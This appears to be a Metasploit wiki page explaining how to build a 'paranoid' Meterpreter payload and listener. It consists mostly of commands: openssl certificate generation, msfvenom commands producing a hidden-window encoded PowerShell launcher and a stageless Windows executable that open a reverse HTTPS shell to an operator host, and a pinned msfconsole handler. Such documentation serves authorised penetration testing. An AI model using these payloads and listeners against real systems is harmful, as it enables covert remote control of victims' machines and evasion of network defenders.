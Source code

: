 In some scenarios, it pays to be paranoid. This also applies to generating and handling Meterpreter sessions. This document walks through the process of implementing a paranoid Meterpreter payload and listener.

### Create a SSL/TLS Certificate

For best results, use a SSL/TLS certificate signed by a trusted certificate authority. Failing that, you can still generate a self-signed unified PEM using the following command:
```
$ openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
rm -f www.example.com.key  www.example.com.crt
```

### Create a Paranoid Payload

For this use case, we will combine [[Payload UUID]] tracking and whitelisting with [TLS pinning](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-HTTP-Communication#tls-certificate-pinning). For a staged payload, we will use the following command:

```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./www.example.com.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH -f psh-cmd -o launch-paranoid.bat

$ head launch-paranoid.bat 
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcg...
```

A [[stageless|Meterpreter Stageless Mode]] version of this would look like the following:

```
$ ./msfvenom -p windows/meterpreter_reverse_https LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./www.example.com.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedStageless -f exe -o launch-paranoid-stageless.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 885314 bytes
Saved as: launch-paranoid-stageless.exe
```

### Create a Paranoid Listener

```
$ ./msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_https; set LHOST www.example.com; set LPORT 443; set HandlerSSLCert ./www.example.com.pem; set IgnoreUnknownPayloads true; set StagerVerifySSLCert true; run -j'
```